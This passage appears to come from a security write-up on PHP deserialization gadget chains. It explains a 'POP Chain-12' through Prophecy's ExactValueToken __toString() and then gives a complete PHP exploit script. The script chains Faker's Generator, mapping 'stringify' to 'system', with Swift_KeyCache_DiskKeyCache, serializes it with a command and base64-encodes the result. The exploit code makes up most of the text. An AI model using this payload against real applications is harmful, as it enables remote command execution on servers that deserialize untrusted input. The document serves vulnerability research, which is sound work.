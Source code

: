 
![undefined](https://p0.ssl.qhimg.com/t01b6ad60364791668b.png "undefined")

## POP Chain-12
The utilization chain of the starting point and end point is the same as `POP chain-10`. Change the trigger point of `__toString()` and follow up on the `__toString()` method in `src/Prophecy/Argument/Token/ExactValueToken.php`. Here `$this->string`, `$this->util` and `$this->value` are all controllable.

![undefined](https://p0.ssl.qhimg.com/t01791efaeaeeaa72ec.png "undefined")

### exp
```php
<?php
namespace Faker {
    class Generator {
        protected $formatters = array();
        function __construct() {
            $this->formatters = ['stringify' => "system"];
        }
    }
}

namespace Prophecy\Argument\Token {
    use Faker\Generator;
    class ExactValueToken {
        private $string;
        private $value;
        private $util;
        public function __construct($payload) {
            $this->name = null;
            $this->util = new Generator();;
            $this->value = $payload;
        }
    }
}

namespace {
    use Prophecy\Argument\Token\ExactValueToken;
    class Swift_KeyCache_DiskKeyCache {
        private $path;
        private $keys = ['H3rmesk1t' => ['H3rmesk1t' => 'H3rmesk1t']];
        public function __construct($payload) {
            $this->path = new ExactValueToken($payload);
        }
    }
    echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache("calc")));
}
?>
```
### POP chain utilization process
picture
